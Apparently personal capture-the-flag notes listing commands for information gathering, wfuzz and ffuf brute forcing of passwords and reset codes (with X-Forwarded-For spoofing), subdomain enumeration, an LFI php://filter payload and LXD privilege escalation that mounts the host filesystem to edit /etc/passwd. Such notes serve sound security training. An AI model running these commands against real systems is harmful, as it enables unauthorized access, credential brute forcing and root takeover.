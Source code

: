 ###### Information Gathering via ChatGPT
- A way to find the release date of a specific version of a program is to search for `changelogs`
- You can use exiftool on a changelog file to get the creation date.
- In CTFs, gathering as much information as possible early on is key. Look at every file, every directory, every configuration.
- Check for accessible files that may contain passwords or sensitive information. Tools like `find` can help you locate configuration files (`find / -type f -name "*config*"`).
- In some cases, exploring the web interface or API of a web application (if one exists) can provide additional clues about where sensitive data might be stored.
- if you're in the 'adm' group, you can analyze the /var/log directory (interesting file in there: `auth.log`)

###### fuzzing
- `wfuzz -c -d "password=FUZZ" -w /usr/share/wordlists/rockyou.txt -u http://expose.thm:1337/file1010111/index.php --hc 200`
- `wfuzz -c -u <url> -z,range<start>,<end> --hc <status code>` (fuzz with number from `start` to `end`)
- `ffuf -u "http://cap.htb/data/FUZZ" -w <(seq 0 30000) -mc 200`
- for fuzzing wordlists you got the `/usr/share/seclists/Fuzzing` directory (it might be useful for LFI attacks as well: `/usr/share/seclists/Fuzzing/LFI/`)
- `ffuf -w count-9999.txt:W1 -w fake_ip_cut.txt:W2 -u "http://hammer.thm:1337/reset_password.php" -X "POST" -d "recovery_code=W1&s=80" -b "PHPSESSID=4f2a5gbr0te1djkibg137461jm" -H "X-Forwarded-For: W2" -H "Content-Type: application/x-www-form-urlencoded" -fr "Invalid" -mode pitchfork -fw 1 -rate 100 -o output.txt`
- `-recursion`

###### Sub-domain enumeration
- `ffuf -u <url> -w <wordlist> -H 'FUZZ.analytical.htb'`  (use `-fs` for filtering size, or `-fw'` for filtering words)
###### Wireshark
- use "Follow stream" to better visualization (shortcut: `F3`)
###### LFI
- [HackTrics](https://book.hacktricks.xyz/pentesting-web/file-inclusion)
- Log Poisoning
- `/var/log/apache2/access.log`
- filters
- `http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php`

###### LXD
- "lightervisor, or lightweight container hypervisor"
- [HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation)
- [Shell script](https://www.exploit-db.com/exploits/46978)
- `lxc image import meta.tar.xz rootfs.tar.xz --alias alpine-3.17` (https://images.lxd.canonical.com/)
- get the root.tar.xz and meta.tar.xz, if you get the error with the metadata, you can create the file missing yourself: 
	-  `touch metadata.yaml`
	-  add the metadata (google it)
	- `tar -cJf meta.tar.xz metadata.yaml`
- `lxc launch alpine-3.17 <container-name (optional)> -c security.privileged=true` (`-c security.privileged=true` to launch a privileged container)
- `lxc stop <container-name>`
- `lxc start <container-name>`
-  mount host's filesystem to the container: `lxc config device add/remove <container-name> device disk source=/ path=/mnt/root`
- `lxc exec <container-name> -- /bin/sh`
- `ls /mnt/root`
- `lxc list` - status of all containers
- `lxc config show <container-name>`
- the changes made to the mounted filesystem will apply to the host's filesystem (you can modify /etc/passwd)
